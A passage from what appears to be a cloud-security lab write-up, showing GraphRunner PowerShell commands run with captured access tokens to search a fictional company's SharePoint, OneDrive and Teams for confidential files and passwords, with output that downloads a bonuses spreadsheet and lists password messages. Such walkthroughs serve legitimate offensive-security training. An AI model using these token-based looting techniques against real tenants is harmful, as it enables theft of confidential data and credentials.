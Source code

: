 ![](loot-exchange-teams-sharepoint-with-graphrunner-1.png)

![](loot-exchange-teams-sharepoint-with-graphrunner-2.png)

Let's continues searching other sensitive data
```
└─PS> Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'bonus'
[*] Using the provided access tokens.
[*] Found 1 matches for search term bonus
Result [0]
File Name: Bonuses - Confidential.xlsx
Location: https://iancloudpwned-my.sharepoint.com/personal/sam_olsson_megabigtech_com/Documents/Bonuses - Confidential.xlsx
Created Date: 11/05/2023 21:50:58
Last Modified Date: 11/05/2023 21:50:58
Size: 17.50 KB
File Preview: 
DriveID & Item ID: b!qFVO5o9Td0OqTdtkAzLcOeLC9xqzoSxNgtanvmZOWlEk66ey-hWeTL_LW84ry4xf\:01LMH7HCXMTDF5WDES3ZF3IDWGRV2P4OXB
================================================================================
[*] Do you want to download any of these files? (Yes/No/All)
Yes
[*] Enter the result number(s) of the file(s) that you want to download. Ex. "0,10,24"
0
[*] Now downloading Bonuses - Confidential.xlsx
[*] Do you want to download any more files? (Yes/No/All)
No
[*] Quitting...
```

The file is password protected

![](loot-exchange-teams-sharepoint-with-graphrunner-3.png)

Let's continue investigating other Microsoft 365 services. For example, Teams service is commonly used by organizations, thus we can use the `Invoke-SearchTeams`  to search all Teams messages in all channels that are readable by the current user, as well as notes/chat that the user sends to themselves...
```
└─PS> Invoke-SearchTeams -Tokens $tokens -SearchTerm password
[*] Using the provided access tokens.
[*] Refreshing token for Teams use...
From: Clara.Miller@megabigtech.com | Summary: password: <REDACTED
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>password: <REDACTED</p></body></html>
================================================================================
From: Clara.Miller@megabigtech.com | Summary: Call IT to reset my password for accounting system
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>Call IT to reset my password for accounting system</p></body></html>
================================================================================
From: Clara.Miller@megabigtech.com | Summary: Call IT to reset my password for accounting system
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>Call IT to reset my password for accounting system</p></body></html>
================================================================================
From: Clara.Miller@megabigtech.com | Summary: password: <REDACTED
Full Message Body: <html><head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head><body><p>password: <REDACTED</p></body></html>
================================================================================
```
